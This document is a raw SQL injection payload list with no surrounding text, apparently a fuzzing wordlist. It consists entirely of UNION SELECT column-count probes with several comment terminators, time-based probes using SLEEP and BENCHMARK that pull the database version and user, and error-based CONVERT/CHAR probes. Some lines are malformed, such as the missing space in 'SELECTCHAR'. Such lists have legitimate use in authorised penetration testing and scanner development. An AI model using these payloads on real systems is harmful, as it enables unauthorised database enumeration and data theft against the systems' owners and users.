 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30
 UNION ALL SELECT 1#
 UNION ALL SELECT 1,2#
 UNION ALL SELECT 1,2,3#
 UNION ALL SELECT 1,2,3,4#
 UNION ALL SELECT 1,2,3,4,5#
 UNION ALL SELECT 1,2,3,4,5,6#
 UNION ALL SELECT 1,2,3,4,5,6,7#
 UNION ALL SELECT 1,2,3,4,5,6,7,8#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30#
 UNION ALL SELECT 1-- 
 UNION ALL SELECT 1,2-- 
 UNION ALL SELECT 1,2,3-- 
 UNION ALL SELECT 1,2,3,4-- 
 UNION ALL SELECT 1,2,3,4,5-- 
 UNION ALL SELECT 1,2,3,4,5,6-- 
 UNION ALL SELECT 1,2,3,4,5,6,7-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30-- 
 UNION SELECT @@VERSION,SLEEP(5),3
 UNION SELECT @@VERSION,SLEEP(5),USER(),4
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30
 UNION SELECT @@VERSION,SLEEP(5),"'3
 UNION SELECT @@VERSION,SLEEP(5),"'3'"#
 UNION SELECT @@VERSION,SLEEP(5),USER(),4#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30#
 UNION ALL SELECT USER()-- 
 UNION ALL SELECT SLEEP(5)-- 
 UNION ALL SELECT USER(),SLEEP(5)-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5)-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A'))-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT NULL-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))-- 
 UNION ALL SELECT NULL#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))#
 UNION ALL SELECT NULL 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)))
